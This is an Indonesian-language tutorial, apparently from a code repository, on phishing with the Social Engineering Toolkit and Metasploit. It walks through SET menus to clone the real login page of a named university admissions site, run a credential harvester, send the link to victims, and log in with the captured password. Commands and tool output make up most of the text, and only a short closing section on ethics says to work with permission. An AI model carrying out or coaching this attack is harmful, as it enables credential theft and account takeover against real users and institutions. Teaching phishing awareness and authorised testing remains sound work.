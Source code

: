 # Eksploitasi dengan Metasploit + Social Engineering Toolkit (SET)

## A. Apa itu Social Engineering?

[Social Engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)) atau yang sering disebut soceng adalah seni memanipulasi manusia agar memberikan informasi sensitif atau menjalankan tindakan tertentu.

Contoh serangan social engineering:

- Phishing (email atau website palsu)
- Fake update (pembaruan sistem palsu)
- USB drop (menyebar USB yang berisi malware)
- Malicious file (file berbahaya seperti `PDF`, `EXE`, atau `DOCX`)

## B. Instalasi dan Setup

### 1. Install SET (Social Engineering Toolkit):

   ```
   sudo apt update
   sudo apt install set
   ```

### 2. Setup dan jalankan Metasploit:

  ```
  sudo msfdb init
  sudo msfconsole
  ```

  > Kalau belum diinstal Metasploit-nya, instal dengan: `sudo apt-get install metasploit-framework`

## C. Skema Serangan Umum

Contoh skenario:

- Penyerang membuat situs phishing kloning (fake login page) menggunakan `SET`.
- Tautan palsu dikirim melalui email yang menyamar sebagai aplikasi populer.
- Korban membuka tautan dan mengisi data login di situs palsu tersebut.
- Alternatif lain: korban diminta mengunduh `update sistem` palsu yang ternyata berisi `backdoor`.

## D. Praktik: Phishing

1. Jalankan tool SET:

   ```
   sudo setoolkit
   ```

   Tunggu sampai muncul menu utama dari tool SET:

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Social-Engineering Attacks
      2) Penetration Testing (Fast-Track)
      3) Third Party Modules
      4) Update the Social-Engineer Toolkit
      5) Update SET configuration
      6) Help, Credits, and About

     99) Exit the Social-Engineer Toolkit

   set> 
   ```

   Ini merupakan menu utama dari tool SET. Untuk melakukan serangan phishing pilih menu nomer `1` yaitu `Social-Engineering Attacks`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Spear-Phishing Attack Vectors
      2) Website Attack Vectors
      3) Infectious Media Generator
      4) Create a Payload and Listener
      5) Mass Mailer Attack
      6) Arduino-Based Attack Vector
      7) Wireless Access Point Attack Vector
      8) QRCode Generator Attack Vector
      9) Powershell Attack Vectors
     10) Third Party Modules

     99) Return back to the main menu.

   set>
   ```

   Setelah masuk ke dalam menu `Social-Engineering Attacks`, langkah selanjutnya pilih menu nomer `2` yaitu `Website Attack Vectors`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Java Applet Attack Method
      2) Metasploit Browser Exploit Method
      3) Credential Harvester Attack Method
      4) Tabnabbing Attack Method
      5) Web Jacking Attack Method
      6) Multi-Attack Web Method
      7) HTA Attack Method

     99) Return to Main Menu

   set:webattack>
   ```

   Pada menu ini kita pilih menu nomer `3` yaitu `Credential Harvester Attack Method`.

   ```
    The first method will allow SET to import a list of pre-defined web
    applications that it can utilize within the attack.

    The second method will completely clone a website of your choosing
    and allow you to utilize the attack vectors within the completely
    same web application you were attempting to clone.

    The third method allows you to import your own website, note that you
    should only have an index.html when using the import website
    functionality.
   
      1) Web Templates
      2) Site Cloner
      3) Custom Import

     99) Return to Webattack Menu

   set:webattack>
   ```

   Pada menu ini kita pilih menu nomer `2` yaitu `Site Cloner`.

   ```
   [-] Credential harvester will allow you to utilize the clone capabilities within SET
   [-] to harvest credentials or parameters from a website as well as place them into a report

   -------------------------------------------------------------------------------
   --- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

   The way that this works is by cloning a site and looking for form fields to
   rewrite. If the POST fields are not usual methods for posting forms this 
   could fail. If it does, you can always save the HTML, rewrite the forms to
   be standard forms and use the "IMPORT" feature. Additionally, really 
   important:

   If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
   IP address below, not your NAT address. Additionally, if you don't know
   basic networking concepts, and you have a private IP address, you will
   need to do port forwarding to your NAT IP address from your external IP
   address. A browser doesn’t know how to communicate with a private IP
   address, so if you don't specify an external IP address if you are using
   this from an external perspective, it will not work. This isn't a SET issue
   this is how networking works.

   set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.42]:
   ```

   Pada tahap ini, kita diminta untuk memasukkan alamat IP yang akan digunakan sebagai tujuan `POST back`. Anda bisa langsung menekan `Enter` untuk menggunakan alamat IP default (yang terdeteksi otomatis).

   ```
   [-] SET supports both HTTP and HTTPS
   [-] Example: http://www.thisisafakesite.com
   set:webattack> Enter the url to clone: 
   ```

   Pada tahap ini kita diminta untuk memasukkan alamat url yang mau kita clone. di sini sebagai contoh, kita masukkan url login dari website login `SIMAK UI` (Universitas Indonesia).

   ```
   set:webattack> Enter the url to clone: https://penerimaan.ui.ac.id/login

   [*] Cloning the website: https://penerimaan.ui.ac.id/login
   [*] This could take a little bit...

   The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
   [*] The Social-Engineer Toolkit Credential Harvester Attack
   [*] Credential Harvester is running on port 80
   [*] Information will be displayed to you as it arrives below:
   ```

   Tahap selanjutnya adalah mengirim tautan phishing kepada target, misalnya melalui `email` atau `pesan instan`. Tunggu sampai korban memasukkan `username/email` dan `password` yang benar.

   ```
   [*] WE GOT A HIT! Printing the output:
   POSSIBLE USERNAME FIELD FOUND: username=adminui@ui.ac.id
   POSSIBLE PASSWORD FIELD FOUND: password=adminui123
   PARAM: s=LOGIN
   PARAM: csrf_token=3e5281c44fe387ed6cc384978fd1257d82d501dc5147e86766fc578b3cf0e6ea
   [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
   ```

   Boom...! Selamat Anda sudah mendapatkan `username/email` dan `password` yang benar. Sekarang Anda bisa login ke website SIMAK UI dengan kredensial tersebut:

   ```
   username=adminui@ui.ac.id
   password=adminui123
   ```

## E. Etika & Hukum

- Dilarang menjalankan serangan ini di dunia nyata tanpa izin tertulis.
- Praktik hanya di lab/lab simulasi.
- Tujuan pembelajaran dan pengujian keamanan.
